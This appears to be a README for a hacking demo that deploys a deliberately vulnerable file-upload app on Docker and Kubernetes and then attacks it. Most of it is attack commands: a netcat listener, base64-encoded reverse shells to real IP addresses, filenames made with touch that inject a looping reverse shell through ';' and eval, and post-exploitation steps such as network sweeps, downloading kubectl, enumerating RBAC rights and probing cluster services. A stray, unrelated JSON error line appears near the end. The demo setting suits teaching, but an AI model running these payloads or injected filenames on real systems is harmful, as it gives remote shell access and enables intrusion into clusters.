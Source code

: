 # docker
```bash
docker build -t biltisberger/vuln-fileupload:latest .
docker push biltisberger/vuln-fileupload:latest
docker run -d --name vuln-fileupload -p 8080:8080 biltisberger/vuln-fileupload:latest
```

# k8s
```bash
kubectl apply -f manifests/rbac.yaml 
kubectl apply -f manifests/deployment.yaml 
kubectl apply -f manifests/service.yaml 
kubectl apply -f manifests/ingress.yaml 
```

# Listen for incoming connections
```bash
sudo nc -nvl 9001
```

# Connect to the listener
```bash
echo "bash -c 'bash -i >& /dev/tcp/192.168.178.113/1338 0>&1'" | base64
echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3OC4xMTMvMTMzOCAwPiYxJwo= | base64 -d | bash 2>/dev/null
touch ";while true; do sh -i >& /dev/tcp/128.140.44.16/9001 0>&1; sleep 1; done"

echo ";while true; do sh -i >& /dev/tcp/128.140.44.16/9001 0>&1; sleep 1; done" | base64
touch 'testfile;eval "$(echo dGVzdGZpbGU7IHdoaWxlIHRydWU7IGRvIHNoIC1pID4mIC9kZXYvdGNwLzEyOC4xNDAuNDQuMTYvOTAwMSAwPiYxOyBzbGVlcCAxOyBkb25lCg== | base64 -d)"'

lsof -i :8080

// even better with a loop if the connection dies
google.com;while true; do sh -i >& /dev/tcp/88.198.205.24/9001 0>&1; sleep 1; done
```

# Ok we are on the host
```bash
nmap -sn 10.1.11.0/24 | grep 'Nmap scan report for' | awk '{print $5, $6}'
nmap angular2.bene-default-oi9z17.svc.cluster.local

curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod +x kubectl
./kubectl auth can-i --list
./kubectl get pods --all-namespaces

curl https://metrics-server.mogenius.svc.cluster.local:443/apis/metrics.k8s.io/v1beta1/pods --insecure

```

# Links
- [https://hub.docker.com/r/biltisberger/vuln-fileupload](https://hub.docker.com/r/biltisberger/vuln-fileupload)
- [https://github.com/mogenius/meetup-2024-hack](https://github.com/mogenius/meetup-2024-hack)

# Sources
- [https://www.revshells.com/](https://www.revshells.com/)
- [https://www.youtube.com/watch?v=iD_klswHJQs&t=1209s&ab_channel=JohnHammond](https://www.youtube.com/watch?v=iD_klswHJQs&t=1209s&ab_channel=JohnHammond)
- [https://www.youtube.com/watch?v=c7hLUsUE_Ao&t=183s&ab_channel=DanielLowrie](https://www.youtube.com/watch?v=c7hLUsUE_Ao&t=183s&ab_channel=DanielLowrie)
- [XZ-Backdoor](https://thenewstack.io/linux-xz-backdoor-damage-could-be-greater-than-feared/)


"services.K8sUpdateDeploymentRequest.Data: readObjectStart: expect { or n, but found \", error found in #9 byte of ...|{\"data\":\"kind: Depl|..., bigger context ...|{\"data\":\"kind: Deployment\\napiVersion: apps/v1\\nmetadata:\\n|..."


# Developer RBAC-User 
- login as the user create a deployment
